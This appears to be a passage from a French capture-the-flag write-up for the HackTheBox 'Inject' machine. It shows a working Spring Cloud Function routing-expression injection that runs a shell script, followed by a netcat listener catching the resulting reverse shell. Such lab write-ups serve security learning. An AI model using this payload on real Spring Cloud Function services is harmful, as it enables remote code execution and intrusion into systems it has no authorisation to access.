Pour terminer :

```http
POST /functionRouter HTTP/1.1
Host: inject.htb:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /tmp/exploit.sh")
Content-Length: 5

totot
```

Résultat :
```bash
└─$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.10.14.74] from (UNKNOWN) [10.129.173.20] 57098
sh: 0: can't access tty; job control turned off
$ ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ which python
$ which python3
/usr/bin/python3
$ 
```


[^footnote]: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/